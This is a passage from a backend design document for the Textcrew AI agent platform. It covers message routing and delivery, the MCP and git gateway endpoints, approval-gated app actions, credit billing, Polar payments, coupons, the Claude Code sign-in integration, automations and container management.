4. **Media.** Downloads photos, files and voice to `ATTACHMENTS_DIR/<user>/<id>` and saves an `attachments` row. Voice goes to LiteLLM `/v1/audio/transcriptions` and the transcript is appended to the text. If this fails, a note is added and the message is still delivered.
5. **Save.** The message is saved once per event, then SSE sends `message.created`.
6. **Credit check.** If the balance is ≤ 0, the user gets the "out of credits" reply and no container is woken. On Telegram it reads "Open the Textcrew web app to top up, upgrade or redeem a coupon", with no link; on the other channels it ends with the `/billing` link (§6.6).
7. **Jev routing** (`routing.ts`), only for normal chat messages that are text-only (no attachments) and at most 1,000 characters; everything else is a task:
   - `simple`, at least 70% sure → the cheap model answers with the user's own LiteLLM key; if it answers `ESCALATE`, the message goes to the agent instead.
   - `spam`, at least 90% sure → dropped.
   - anything else, an error, or Jev not configured → `task`.
   - Jev can also pick the likely apps, which go to the agent as a hint (`metadata.apps`).
8. **Wake.** `ensureSandbox` (create it once if missing), then `WakeSandbox`. If the server is full (`RESOURCE_EXHAUSTED`) or the vm-manager is unreachable, the job is retried with backoff.
9. **Deliver.** A gRPC stream with `delivery_id = event id`, the session key (`telegram:<chat>`, `whatsapp:<phone>`, `imessage:<phone>`, `web`), the text, signed attachment URLs and metadata. The text starts with what is known about the user (the memory block) and, when the engine changed, a recap of the chat; with neither it is the message as it was (§6.22).
   - `accepted` → the message status becomes `processing`, SSE `agent.status: busy`
   - `turn_done` → `delivered`, and the engine is recorded as the one that last ran this chat
   - `error` with `platform_fault` → the turn's charge is reversed and the user gets "something went wrong on our side, you weren't charged"
   - any other `error` → "I couldn't finish that: …"
   - a stream that ends without `turn_done` → retried (the Bridge dedupes on `delivery_id`)
10. **Inside the container**, the Bridge runs one Hermes turn in that chat's session. Hermes calls the Platform MCP tools. The Bridge sends the final answer itself through `send_message`.
11. **After the turn**, usage is synced for this user (§6.10), then SSE sends `credits.updated` and the lock is released.

**Web messages** skip the webhook. `POST /v1/messages` returns `402` at zero credits, allows 30 per minute and is idempotent on `clientMessageId`. It saves the message, adds the event and job `web-message`, and the reply comes back over SSE (`GET /v1/stream`, with the token in the query string because browsers can't set headers on EventSource). Since 2026-10-04 the checks, the save and the job are one function, `sendWebMessage` (`orchestrator/process-message.ts`), which the dev script's `send` calls too (§6.24).

### 6.6 Sending replies (outbound)

- Every outgoing message is a `messages` row plus an `outbound/send-message` job. The job skips messages that were already sent.
- **Telegram:** text split at ~4,096 characters on paragraph, line or space boundaries; buttons as one row of an inline keyboard on the last part (`callback_data` = our button id, e.g. `apr:<id>:yes`). A `403` means the user blocked the bot: the link is marked blocked, and the agent is told to use the web session.
  - **No purchase links** (HLD §7.6: Telegram requires Stars for digital goods sold inside the app). The one platform message that carried one, "out of credits", names the web app on Telegram instead. As a safety net the Telegram sender (`channels/purchase-links.ts`) replaces any purchase link in any text it sends, the agent's own messages included, with "the Textcrew web app". A purchase link is a Polar URL, or a web app URL under `/billing`, `/pricing`, `/checkout`, `/upgrade`, `/plans`, `/topup` or `/subscribe`. Links that sell nothing (`/settings/ai`, linking a chat) are left alone. The saved message keeps the original text.
- **WhatsApp:**
  - Inside 24 hours of the user's last message: free text plus up to 3 reply buttons.
  - Outside that window: an approved template with the text in `{{1}}` (flattened, about 700 characters). Messages with buttons use the approval template (its quick-reply payloads are our button ids); others use the reminder or task-done template.
  - Error 131047 (window closed) → resent as a template. Error 131026 → the chat is marked blocked.
  - Delivery receipts go to `outbound/message-status` and only move a message's status forward (sent → delivered → read).
- **iMessage (Sendblue):** no buttons, so the text ends with "Reply YES to approve or NO to reject". Opted-out numbers are marked blocked.
- **Web:** nothing to send. The message row and the SSE events are the delivery.
- **A channel that is switched off** gets nothing: the send job marks the message `failed` without calling the provider.

### 6.7 Platform MCP (`/mcp`)

- **Transport:** MCP streamable HTTP, **stateless**: each request gets a new server bound to one user.
- **Auth:** `Authorization: Bearer <container token>` → sha256 → `sandbox_tokens` → user id. Unknown token → `401`. The limit is 240 calls per minute per user.
- **Every tool call** refreshes the container's last-active time (`Touch`) and writes an audit entry (actor `agent`, with secrets redacted from the arguments). A tool can say what the audit entry keeps of its arguments: `read_page` keeps the address without its query string, and the memory tools keep the memory's id and never its text.
- **Tool errors** go back to the agent as `isError` text. Internal errors show only "Internal error".
- **`/mcp/files/<id>?exp&sig`** serves attachments with an HMAC-signed, 1-hour URL. It lives under `/mcp` because that's the only api path the egress proxy lets containers reach.
- **Closed to the internet.** Caddy answers 404 for `/mcp*`. Containers call `http://api:8080/mcp` directly through the egress proxy, and the attachment URLs are built from `INTERNAL_API_URL`, so nothing public uses this path.

The 14 tools are listed in §8.3.

**Git gateway (`/git/<owner>/<repo>`).** Real git for the user's GitHub, without a GitHub token in the container (`src/api/git.ts`, `src/modules/integrations/git-gateway.ts`, HLD §5.1).

- **In the container:** the Bridge writes a managed git config at every start. `https://github.com/…` (and the ssh forms) are rewritten to `http://api:8080/git/…`, with the container token as the `Authorization` header. So `git clone https://github.com/<owner>/<repo>` works as usual.
- **Auth:** the same container token as `/mcp` (Bearer, or Basic with the token as the password) → user id. Unknown token → `401`. The limit is 300 requests per minute per user.
- **Forwarding:** only `GET info/refs?service=…`, `POST git-upload-pack` and `POST git-receive-pack` exist. Each is streamed to `https://github.com/<owner>/<repo>.git/…` with the OAuth token of the user's **active Composio GitHub connection**. The token is read per request, cached in memory for 60 seconds, and never logged or stored.
- **Push rules,** checked on the command list before anything reaches GitHub: only branches; never the repo's default branch (looked up from the GitHub API, cached 5 minutes, and the push is refused if the lookup fails); no deletes; no tags. A pull request is opened with the GitHub app action (`run_app_action`).
- **Errors** are `text/plain`, which git prints as `remote: …`: no GitHub connection `403`, GitHub refuses the account `403`, repo not found `404`, GitHub down `502`.
- **Audit:** `git_fetch` per clone/fetch and `git_push` per push (repo and branch names), each with a `Touch`.
- **Not in `openapi.yaml`:** like `/mcp`, it's a protocol endpoint, not REST.
- **Closed to the internet:** Caddy answers 404 for `/git/*`, like `/mcp`.

### 6.8 Apps (Composio) and approvals

**Connecting an app:**
1. `POST /v1/apps/{slug}/connect` checks the plan: Free only allows the 10 free apps, otherwise `403 plan_limit`.
2. It creates a Composio connect link with our user id as the Composio user id, saves a `pending` connection and returns the provider login URL.
3. The connection becomes `active` (or `expired` / `error`) through whichever of these comes first:
   - the Composio webhook;
   - the app list being refreshed from Composio (`GET /v1/apps`; this is also what happens when the browser lands on the connect return page, which is a web app page and not an api URL);
   - the **check-connection** job. `startConnect` queues `system/check-connection` with a 15-second delay. The job asks Composio for the user's accounts and copies the status. While the connection is still `pending` it queues the next check: 30 s, 1 min, 2 min, 4 min and 8 min later, six checks in about 16 minutes. It stops as soon as the connection is no longer pending. Job ids are fixed per connect attempt and check number, so a re-run can't queue a check twice, and a Composio outage just means the next check. After the last check a still-pending connection is left as it is.
4. `scripts/dev-user.ts status` asks Composio before it prints the apps.

**Running an action:**
- `list_app_actions` shows only actions of apps the user has connected **and** their plan allows. Each action is marked `requires_approval` when its name contains SEND, DELETE, PAY, SHARE, POST, MERGE and similar words, and, since 2026-10-04, when it is a GitHub action that writes a comment or a review (other people read those).
- `run_app_action` always calls Composio with the **caller's** user id and connected account. Risky actions need an `approval_id` that is:
  - approved, and decided less than 24 hours ago,
  - not used yet (it is consumed atomically),
  - for the same action, and with **exactly the same arguments** the user approved.
- **One exception:** a new review or comment on a pull request, in a repo where the user turned pull-request review on, runs without an approval (§6.20).
- If Composio fails, the approval is released so it can be retried.
- **The charge (HLD §7.2):** a successful action that changes something costs 1 credit; reading is free; a failed action costs nothing. At zero credits a changing action is refused before it reaches Composio. Details in §6.10.
- **What changes something** (`integrations/catalog.ts`, built on the risky-action check, by the words in the action's name):
  1. it needs approval, or its name has a write word (CREATE, ADD, UPDATE, SET, EDIT, MARK, UPLOAD…) → it changes something;
  2. its name has a read word (GET, LIST, SEARCH, FIND, FETCH, READ, QUERY…) and no write word → it only reads;
  3. its name has neither → Composio's `readOnlyHint` tag on the tool, if present, makes it a read. The tags are asked for once per tool and kept in memory; if Composio can't be asked, step 4 applies;
  4. anything else → it changes something. An unknown action is charged.
- `list_app_actions` shows `costs_credits` (1 or 0) per action, and `run_app_action` returns `credits_charged`.

**The approval flow:**
1. The agent calls `request_approval(summary, action, arguments)`. This saves the approval (expires in 24 h), sends "Approval needed: …" with ✅ Approve / ❌ Reject buttons, and returns `pending`. The agent then ends its turn.
2. The user answers by tapping a button, typing yes/no (the latest pending approval in that chat), or using the web app (`POST /v1/approvals/{id}/decision`, `409` if already decided or expired).
3. The answer is recorded, SSE sends `approval.resolved`, it's audit-logged, and `inbound/process-approval` wakes the agent with "The user APPROVED …, call run_app_action with approval_id …" (or REJECTED).
4. The agent continues from its saved Hermes session.

### 6.9 The user's own MCP servers and egress

- **Max plan only.** The URL must be `https`, a public host name, not an IP, not one of our service names, and have no credentials in it. The secret is encrypted and never returned (`hasSecret: true`).
- Any change queues `system/sync-allowlist`. That job sends `SetEgressAllowlist(domains, servers with decrypted secrets)` to the vm-manager.
- The vm-manager writes `<user>.conf` for Squid, containing an ACL from the container's IP to those domains, and reloads the proxy.
- Every container may always reach LiteLLM, `api:8080/mcp` and the git gateway's three paths under `api:8080/git/`, and nothing else. `github.com` itself is blocked.

### 6.10 Credits, charging and enforcement

**Grants and the ledger:**
- `credit_grants` stores the amount, what's left, the source (signup, coupon, monthly, topup, admin, refund), an expiry and a cheap-model-only flag.
- Each change adds a row to `credit_ledger`. Its `idempotency_key` is unique, and a database trigger rejects UPDATEs.
- **Balance** = the sum of what's left in unexpired grants, plus any debt. No balance number is stored anywhere.
- Every credit change for a user runs in one transaction holding a **per-user advisory lock**.

**Expiry:** every grant lasts **90 days from the day it's granted** (`CREDIT_EXPIRY_DAYS` in `billing/plans.ts`), whatever the source: sign-up, monthly, top-up, coupon, and admin grants unless the admin sets another date. Monthly credits don't expire at renewal or when a plan ends, so unused ones carry over for up to 90 days.

**Spending order:** the grant that expires soonest goes first (so the oldest credits are used first), and never-expiring grants (admin-set, debts) go last. Cheap-model-only grants (coupons) can only pay for cheap-model AI, awake time and app actions.

**Overruns:** if a charge is bigger than the balance, the rest goes on a hidden per-user "overrun" grant as a small negative amount. The next positive grant pays it back first.

**Charging** (`sync-usage`: every 5 minutes for everyone, and after each turn for that user):
1. The window runs from the end of the last charged period to now.
2. Awake and browser seconds come from the vm-manager's `GetUsage`.
3. AI cost is the LiteLLM key's total spend minus what was already charged, split into cheap and other models.
4. Credits:
   - AI: cost × 2.5 × 100, rounded up
   - awake time: 1 credit per 600 s
   - browser time: 1 credit per 30 s, which is 2 credits per minute (Scout's browser, Max plan, §6.23). The vm-manager reports the seconds the browser was in use. Since 2026-10-04 it is saved as its own number (`usage_periods.browser_credits`); before, it shared `tool_credits` with paid tools
   - leftover seconds carry over to the next sync
5. The result is **one** charge with the key `usage:<user>:<period start>`, so a re-run can't charge twice. A window with no usage writes nothing.
6. BYOK users aren't charged for AI; awake time still counts. A BYOK user who chose Textcrew AI (`aiPreference: platform`, §6.13) is charged for AI like anyone else.

**App actions** (`billing/app-actions.ts`) are charged when they run, not by the sync:
- `run_app_action` charges 1 credit after Composio reports success, through the same grants and ledger (`spendInTx`), as one ledger row with the description `App action: <NAME>` and `meta.kind = app_action`.
- **Idempotency key:** `app-action:<approval id>` when the action was approved (an approval runs once), otherwise `app-action:<an id made for that run>`. A key can be charged only once.
- **Which grants pay:** any grant, cheap-model-only ones too, like awake time (HLD §7.7). The usual spending order applies.
- **Everyone pays it,** including users on their own API key or Claude plan.
- **Where the user sees it:** the credit history (`GET /v1/credits/ledger`), the activity log (`creditsCharged` on the `run_app_action` entry: 1, or 0 for a read), and usage (`appActionCredits` per period and in the totals of `GET /v1/usage`, read back from the ledger and counted in `totalCredits`).
- If the last credit goes, the LiteLLM budget is closed and automations pause, as after a sync.

**Paid tools** (`billing/paid-tools.ts`, 2026-10-04) are charged when they run too. The first one is Scout's `web_search`:
- **A search costs exactly 1 credit** (decided 2026-10-04; before, 1.25 credits: 1, 1, 1 and 2 for four searches).
  - **How:** the code path did not change. It charges a configured cost × 2.5, and the configured cost of a search (`WEB_SEARCH_COST_USD`) went from 0.005 to **0.004**. That is 4,000 micro-dollars, which is exactly one credit (`MICRO_USD_PER_CREDIT`), so there is no fraction to carry.
  - **Why it is always exactly 1:** the total reached goes up by exactly one credit, and what was charged so far is never less than what was reached so far (every charge is at least "reached minus charged"). So "reached minus charged" is at most 1, and the floor of 1 does the rest. A test runs searches after every kind of earlier charge.
  - **The setting is what the price is worked out from, not Brave's bill** ($0.005 a search). `meta.costMicroUsd` on a search row is 4,000. A search is sold at 2× its cost.
  - **On the server:** a line `WEB_SEARCH_COST_USD=0.005` left in the settings brings back 1.25 credits. Remove it or set 0.004.
- **The general rule: the configured cost × 2.5, and fractions carry over.** Each charge is one ledger row (`Web search`, `meta.kind = paid_tool`) that also saves the cost it was charged for (`meta.costMicroUsd`). The next charge adds up the user's earlier rows under the credit lock, and charges what the total has reached in whole credits minus what was charged before, never less than 1. A tool at $0.005 a call would cost 1, 1, 1 and 2 credits. There is no separate counter.
- **Idempotency key:** `paid-tool:<an id made for that call>`.
- **Which grants pay:** normal grants only. A cheap-model-only coupon grant doesn't pay a paid tool (HLD §7.7).
- **Only success is charged.** A search the provider fails, a search with no provider set up, and a search refused because the user is not on Max cost nothing. A cost of 0 is not charged.
- **Where the user sees it:** the credit history, the activity log (`creditsCharged` on the `web_search` entry; 0 on a `web_search_refused` entry) and usage (`toolCredits`).
- `billing/item-charges.ts` holds what app actions and paid tools share: reading such charges back from the ledger, per usage period, and giving them back after a failed turn.

**Usage in five parts:** `GET /v1/usage` reports `aiCredits`, `awakeCredits`, `appActionCredits`, `browserCredits` and `toolCredits` per period and in the totals; `totalCredits` is their sum.

**Enforcement:**
| When | What happens |
|---|---|
| Before a turn | balance ≤ 0 → "out of credits" reply, no wake (web: `402`) |
| During a turn | the LiteLLM key's `max_budget` = spend so far + balance ÷ 250 dollars, so LiteLLM refuses once the credits run out (BYOK users: no AI cap while the balance is above 0) |
| Before a web search through Textcrew | not on the Max plan → the tool tells the agent that web search is part of Max and to use the engine's own search if it has one; nothing is searched or charged (§6.21) |
| Before an app action that changes something, or a paid tool | balance ≤ 0 → the tool tells the agent the user is out of credits (and to point them to the web app, without a link); the action or search doesn't run. Reading still works |
| Balance hits ≤ 0 | budget set to spend so far; `onBalanceDepleted` → all enabled automations paused (`out_of_credits`) |
| Credits added | budget raised; `onCreditsAdded` → automations paused for credits resume; SSE `credits.updated` |

**Failures caused by us:** if a turn ends with `platform_fault`, `reverseTurn` syncs first, works out the turn's cost from LiteLLM spend logs and `GetUsage` over the turn window, and gives back at most what was charged, to the grants it came from. The app-action credits charged between the turn's start and end are given back too, under their own reversal key (`reversal:<turn>:app-actions`); the per-user lock means every app action in that window belongs to the turn. Paid-tool credits charged in the turn are given back the same way (`reversal:<turn>:paid-tools`).

**Expiry job:** the hourly `expire-credits` job expires grants past their date, and moves users whose cancelled plan has lapsed back to Free (their credits keep their own expiry), including a plan set to cancel at the period end if Polar's `subscription.revoked` never came.

### 6.11 Plans and payments (Polar)

- **Prices:** Pro $12/month (1,500 credits), Max $30/month (4,500 credits), top-up $10 = 800 credits (paid plans only).
- **Client:** plain HTTP to Polar's Core API (`POST /v1/checkouts/`, `PATCH /v1/subscriptions/{id}`), pinned with the header `Polar-Version: 2026-10`. `POLAR_SERVER` picks `sandbox-api.polar.sh` or `api.polar.sh`. Tests swap it with `setPolarClient`.
- `POST /v1/billing/checkout {kind: plan|topup}` creates a Polar checkout with our user id as `external_customer_id` and in the metadata, and returns `{ checkoutUrl, discountApplied }`. Customers can't type in discount codes. Top-ups are refused on Free (`403`), and plan changes while a renewing subscription exists get a `400`. The plan changes **only** when Polar's webhook arrives.
- **Waitlist offer (50% off the first month of Pro or Max):** on a plan checkout, if the user's email is **verified** and matches a waitlist entry (normalized, so Gmail aliases count) that isn't rejected, isn't flagged and hasn't used the offer, the checkout gets the Polar discount `POLAR_WAITLIST_DISCOUNT_ID` (as `discount_id`) and the entry id in its metadata. Polar copies the metadata onto the subscription. When the subscription starts, the entry's `offer_used_at` is set, so the offer works once. If the metadata is missing, the waitlist discount on the subscription still marks it used. The discount must be created in Polar as 50% off, duration "once". No discount configured → no discount.
- **Webhook:** verified with standard-webhooks. The `whsec_…` secret from the dashboard is used as-is; Polar's older signing (the whole secret string as the key) is accepted as a fallback, like Polar's own SDK does. The event is saved with the webhook id as its unique key and handled by `system/polar-event`:

| Polar event | Action |
|---|---|
| `order.paid` | record the order (`payments`, net amount). Top-up: +800 credits (90-day expiry). A subscription order (`subscription_create` or `subscription_cycle`): that period's monthly grant, same as below |
| `subscription.active` | set the plan → this period's monthly grant (1,500 / 4,500, 90-day expiry) → raise the budget and switch the model alias; marks the waitlist offer used |
| `subscription.updated` | sync the status, the period dates and a plan change (Pro ↔ Max applies now; its credits come with the next period) |
| `subscription.canceled` | cancel at period end: status `cancel_at_period_end`, plan kept until the period is over |
| `subscription.uncanceled` | back to `active` |
| `subscription.past_due` | mark past due (plan kept) |
| `subscription.revoked` | access ends now → Free; credits already granted keep their 90-day expiry |
| `refund.created` / `refund.updated` | once the refund has `succeeded`: negative grant for the refunded share of the credits bought (refund amount ÷ the order's net amount). If Polar refunded to prevent a chargeback (`dispute` set, or reason `dispute_prevention`): take back all of it + flag the account |

- **Renewals are granted on `order.paid`**, not on `subscription.cycled`: Polar sends `cycled` before the renewal is paid, whether or not the payment works.
- Every grant's idempotency key is built from Polar's ids: `topup:<order id>`, `monthly:<subscription id>:<period start>`, `refund:<refund id>`, `chargeback:<order id>`. So `subscription.active` and the first `order.paid` grant the period once, and a webhook run twice adds credits once.
- **Disputes:** Polar has no dispute webhook. It refunds many disputed payments itself before they become chargebacks, and those arrive as refunds (above). A dispute it does not refund shows up only in the Polar dashboard (`GET /v1/disputes/`): take the credits back by hand (admin credit adjustment) and flag the user.
- Not handled (ignored if sent): `order.created`, `order.updated`, `order.refunded` (the refund events carry the refund id), `subscription.created`, `subscription.cycled`, `checkout.*`, `customer.*`, `benefit_grant.*`.
- `POST /v1/billing/subscription/cancel` asks Polar to cancel at the period end and sets the local status to `cancel_at_period_end`. Account deletion does the same.
- **Safety net:** the hourly `expire-credits` job also ends a `cancel_at_period_end` subscription whose period is over, in case `subscription.revoked` never arrives.

### 6.12 Coupons

- **Create (admin):** `POST /v1/admin/coupons` with campaign, credits, max redemptions, expiry, credit expiry (default 90 days, like every credit), cheap-model-only (default on), new-users-only, plans, and `codeCount` (1 = one shared code, more = that many single-use codes).
  - Codes look like `AGT-XXXX-XXXX-XXXX-XXXX` (16 secure random characters, no 0/O/1/I).
  - Only sha256 hashes and a visible prefix (`AGT-7K…`) are stored. The plaintext codes are returned **once**.
- **Redeem** (`POST /v1/coupons/redeem`, or the code sent in chat):
  1. Rate limit: 5 per user per hour and 20 per IP per hour (IP only on the web). Wrong codes count too.
  2. Eligibility: verified email **and** at least one linked chat app, plus the new-users-only and plan rules.
  3. Hash → an active, unexpired campaign and code.
  4. **One transaction:**
     - `redeemed_count < max_redemptions` checked and incremented atomically
     - single-use code consumed
     - free-credit monthly cap checked
     - grant + ledger entry created
     - a unique (coupon, user) redemption row inserted
     - audit entry with the IP
  5. The LiteLLM budget is raised, and the reply is "+200 credits, they expire on …".
- **Every failure** returns the same `400 invalid_or_expired_code` (wrong, expired, used up, disabled or not eligible), so codes can't be probed.
- **Disable** a campaign instantly (`PATCH`), optionally revoking unspent credits.
- **Admin stats** (`/v1/admin/stats/free-credits`): sign-up and coupon credits this month, the cap, and abuse flags (3 or more accounts redeeming from one IP).

### 6.13 AI, three ways (own API key, Claude plan, Textcrew AI)

Decided 2026-10-03 (`docs/launch-plan.md` D4): the user's **own API key** is the default and recommended way; the **Claude plan** is offered as a beta, described in plain text as "runs Claude Code"; **Textcrew AI** is a rented model behind LiteLLM, paid in credits at real cost × 2.5. The labels are the web app's job; the rules below are what the backend does.

**Own API key**
- `PUT /v1/byok/{anthropic|openai|openrouter}` test-calls the key first; a bad key gets a `400`. It's then saved AES-GCM encrypted, and only `last4` is ever shown.
- While a user has a key, their AI usage isn't charged in credits; awake time still is.
- Sending their LiteLLM traffic through their own key isn't wired yet (§11).

**Own Claude plan (Claude Code)**

We follow Anthropic's rules (code.claude.com/docs/en/legal-and-compliance). The sign-in happens in the unmodified Claude Code inside the user's container, on Anthropic's own page. **We never collect, store or log Claude credentials or tokens.** Claude Code keeps its own credentials in `/data`.

1. `POST /v1/agent/claude/login`: at most 10 per hour per user. `ensureSandbox`, then gRPC `StartClaudeLogin` (it wakes the container). Returns `201 { loginId, authorizeUrl, expiresAt }`. Server full or vm-manager down → `503`, try again.
2. The user opens `authorizeUrl` (Anthropic's page), signs in and copies the code Anthropic shows.
3. `POST /v1/agent/claude/login/{loginId}/complete { code }`: the code goes straight to `CompleteClaudeLogin`. It is not logged (the logger redacts `code`), not stored, not audited and not put in an event.
   - wrong or expired code → `400` with the vm-manager's message
   - unknown login (or another user's) → `404`
4. Success → `agent_settings.claude_connected_at` is set, runtime becomes `claude_code`, `SetAgentRuntime` is sent, audit `claude_connected`. Returns the settings.

- `PATCH /v1/agent/settings { runtime }` switches between Hermes and Claude Code. Claude Code without a connected plan → `409`. The same call takes `aiPreference` (below).
- `DELETE /v1/agent/claude` → `ClaudeLogout` (removes Claude Code's credentials), clears the connection, back to Hermes, audit `claude_disconnected`. No container → still `204`.
- New containers are created with the runtime from the settings (`CreateSandbox.runtime`).

**Who runs and who pays** (`orchestrator/agent-settings.ts`, `decideAccess`), first match wins:

| User has | Runs (`effectiveRuntime`) | Pays for AI (`aiAccess`) |
|---|---|---|
| chose Textcrew AI (`aiPreference: platform`), `AI_ACCESS_MODE=platform` | Hermes | `platform` (credits), whatever else they have |
| a connected Claude plan and chose Claude Code | Claude Code | `claude_plan` |
| an own API key | Hermes | `own_key` |
| nothing, `AI_ACCESS_MODE=platform` | Hermes | `platform` (credits) |
| a connected plan but chose Hermes, no key, `own_only` | Claude Code (the plan is the only AI source) | `claude_plan` |
| nothing, `AI_ACCESS_MODE=own_only` | nothing (`null`) | `none` |

`AI_ACCESS_MODE` is `platform` by default: a user who brought nothing gets Textcrew AI (Hermes on credits). `own_only` switches Textcrew AI off: the user must bring their own AI.

**Choosing Textcrew AI anyway** (2026-10-04, HLD §7.1):
- `GET /v1/agent/settings` says whether Textcrew AI is on offer (`platformAvailable`, true when `AI_ACCESS_MODE=platform`) and what the user chose (`aiPreference`: `auto` or `platform`, saved in `agent_settings.ai_preference`, default `auto`).
- `PATCH /v1/agent/settings { aiPreference: "platform" }` chooses Textcrew AI although a key is saved or a Claude plan is connected. Hermes runs, the AI is charged in credits, and the AI budget follows at once. The key and the Claude connection are kept, so `{ aiPreference: "auto" }` switches back with no new sign-in.
- **`own_only`:** choosing `platform` is refused (`409`), and a choice saved earlier is ignored. The `own_only` rules are unchanged.
- **Connecting a Claude plan** sets the choice back to `auto`.
- A screen with three choices sends: own key → `{ runtime: "hermes", aiPreference: "auto" }`; Claude plan → `{ runtime: "claude_code", aiPreference: "auto" }`; Textcrew AI → `{ aiPreference: "platform" }`.
- Billing asks one question, `ownKeyPaysForAi(user)`: a saved key, and not a choice of Textcrew AI while it is on offer.
- Audit: `ai_preference_changed`.

**In a turn** (through the `route` turn hook in `wiring.ts`, plus two small steps in `turn.ts`):
- `aiAccess: none` → the reply "Connect your own AI first: add an API key or connect your Claude plan at `<WEB_APP_URL>/settings/ai`". No container is woken. The credit check runs before this, so at zero credits the user gets "out of credits" instead.
- Web: `POST /v1/messages` keeps its contract (`202`, or `402` at zero credits). The "connect your AI" reply comes back over SSE like any agent reply.
- Claude plan users skip Jev: their plan answers everything, so there are no platform-model quick replies.
- After `WakeSandbox`, if the container runs another agent than the settings say, `SetAgentRuntime` is sent again. This heals a switch that failed while the vm-manager was down.
- **A switch keeps what the agent knows and the thread** (2026-10-04, §6.22): what is known about the user is on the platform and reaches every turn, and the first turn of the new engine in a chat starts with a recap of that chat.
- If a Claude Code turn ends in an error and `GetSandbox` reports `claude_connected=false` (e.g. "Connect your Claude plan again"), the connection is cleared and the agent goes back to Hermes for the next turn. Audit `claude_disconnected` (system), and the user gets a "reconnect at /settings/ai" note.

**Inside the container (vm-manager + Bridge)**
- **Install:** the agent image has the official Claude Code CLI from Anthropic's native installer, pinned to 2.1.283 and checked against Anthropic's GPG-signed release manifest. The binary is never modified. Its config lives on the user's volume (`CLAUDE_CONFIG_DIR=/data/claude`, `HOME=/data/home`), so the sign-in survives restarts and works with a read-only root filesystem. Auto-update, telemetry, error reports and claude.ai connectors are off.
- **Sign-in:** the Bridge runs `claude auth login` in a pseudo-terminal and returns the authorize URL it prints (the code-paste one). In containers, Anthropic's page shows a code for the user to paste. The Bridge types that code into the waiting CLI, and the CLI saves its own credentials to `/data/claude/.credentials.json`. The Bridge never reads that file and never logs or stores the code (it also clears the terminal echo). Status comes from `claude auth status`; sign-out is `claude auth logout`. One pending sign-in per container, 10-minute expiry, one attempt per sign-in.
  - `claude setup-token` was rejected on purpose: it prints a token that we would have to capture and store, which Anthropic's rules forbid.
- **Only the user's sign-in is used:** the Bridge strips `ANTHROPIC_API_KEY`, `ANTHROPIC_AUTH_TOKEN`, `ANTHROPIC_BASE_URL` and `CLAUDE_CODE_OAUTH_TOKEN` from the CLI's environment.
- **A turn:** the Bridge reads the runtime from `platform.json` on every delivery, so switching needs no restart. In Claude Code mode it runs `claude -p --output-format stream-json` in `/data/workspace`:
  - with a private MCP config: the Platform MCP (the container's bearer token) plus the user's own MCP servers
  - with no interactive prompts (`dontAsk`, an allow list, `--permission-prompts none`); risky real-world actions still go through our `request_approval`
  - one Claude session per chat (`--session-id`, then `--resume`), mapped in `/data/.platform/claude-sessions.json`
  - the same NDJSON events, `delivery_id` dedupe, and final answer through `send_message` as the Hermes path
- **Errors:** not signed in → "Connect your Claude plan again" and a plan usage limit or rate limit → "Your Claude plan's usage limit was reached…", both `platform_fault=false` (the user isn't refunded anything because we charged nothing for AI); a crash, timeout or overload → `platform_fault=true`.
- **vm-manager:** `StartClaudeLogin` wakes the sandbox and treats a pending sign-in like "busy", so the idle reaper and capacity guard never stop it mid-sign-in. `runtime` and `claude_connected` are stored in the `sandboxes` table (migration `0002_agent_runtime`) and reported by every RPC. The code is shown as `[REDACTED]` in gRPC logs.
- **Egress:** while the runtime is Claude Code (and while a sign-in or sign-out runs), the user's Squid file also allows `api.anthropic.com`, `claude.ai`, `claude.com` and `platform.claude.com` (from Claude Code's network docs; configurable with `CLAUDE_EGRESS_DOMAINS`). They're removed when the user switches back to Hermes.
- **Hermes keeps running** next to Claude Code, so switching back is instant. The RAM cost of both hasn't been measured.

**To confirm with Anthropic before launch** (their page says to contact sales with questions):
1. We must accept Anthropic's Commercial Terms of Service to host Claude Code in our sandboxes.
2. Our UI offers only the Claude-plan sign-in for Claude Code. The binary still has every auth method, but the rule says we may not "restrict" built-in methods, including the user's own API key.
3. The paste-code travels from the web app through our backend to the CLI (never logged or stored). Confirm this counts as "sign-in through Anthropic's own flow" and not intermediating credentials.
4. We turned off telemetry and error reports with environment variables (auth is untouched).

**Billing:** nothing changes. Claude Code doesn't call LiteLLM, so there's no AI spend to charge. Awake time is still charged in credits, and a turn still needs a balance above 0. The user's LiteLLM key stays; it is only used for things like voice transcription, which are charged as before.

### 6.14 Automations and reminders

- **Created by the agent** with `schedule_reminder(text, run_at)` or `create_automation(title, instruction, run_at | cron | trigger)`.
- **Checks on create:**
  - exactly one of run_at / cron / trigger
  - a valid timezone (default: the user's)
  - the plan limit (Free 1 / Pro 5 / Max 50 active)
  - for cron, the next 50 runs must be at least 15 minutes apart
  - for a trigger, the app must be connected; then Composio creates a trigger instance and its id is saved
- **Timers** (Postgres is the source of truth):
  - once → a delayed job on `scheduled` with job id `auto-<id>-<runAt>`
  - repeat → a BullMQ job scheduler `auto-<id>` with the cron pattern and timezone
  - event → nothing in BullMQ; Composio calls our webhook
- **Firing:**
  1. `scheduled/run-automation` adds an **inbound** event, so the per-user lock and ordering apply.
  2. `inbound/automation-turn` runs a normal turn with `[Automation "title"] instruction`.
  3. Composio trigger webhooks go straight to `inbound/composio-trigger`, which checks that the trigger id and the user match the automation's owner.
- **Afterwards:**
  - success → fail count reset and next run time computed; a once-automation is marked completed
  - out of credits → paused (`out_of_credits`)
  - 3 errors in a row → paused (`failures`) and the user is told
- **Recovery:** on worker start, every enabled automation's timer is registered again, which is safe to repeat.
- **Web app:** list, pause/resume (`PATCH {enabled}`, which removes or re-adds the timer) and delete (which also removes the Composio trigger).
- **Pull-request review** is an event automation with the preset `pr_review` (§6.20). It shows in this list with `preset: "pr_review"`, counts toward the plan limit, and pauses like any automation.

### 6.15 Containers (vm-manager)

**State machine:** `stopped → waking → awake ⇄ busy`, plus `broken`.

| Operation | What happens |
|---|---|
| **CreateSandbox** | Creates volume `pa-data-<user>` and container `pa-sbx-<user>` (stopped), makes a random Platform MCP token and Bridge secret (32 bytes each), stores only their sha256, writes `/data/.platform/platform.json` (0600) with the secrets, LiteLLM key, URLs and MCP servers, and returns `mcp_token_hash`. Idempotent per user |
| **WakeSandbox** | Capacity guard → re-create if the image version changed or the container is missing (keeps `/data`) → start (retry once, then re-create) → wait for the Bridge `/healthz` (up to 90 s) → write the user's egress file → open an awake period |
| **Deliver** | Wakes if needed, `POST /deliver` to the Bridge, relays each NDJSON line as a gRPC event; `busy` on `accepted`, back to `awake` + last-active on `turn_done`/`error`; timeout (15 min) → force stop + `ERROR platform_fault=true`; the turn is tracked even if the caller disconnects |
| **Touch** | Refreshes last-active (every delivered message and every MCP call) |
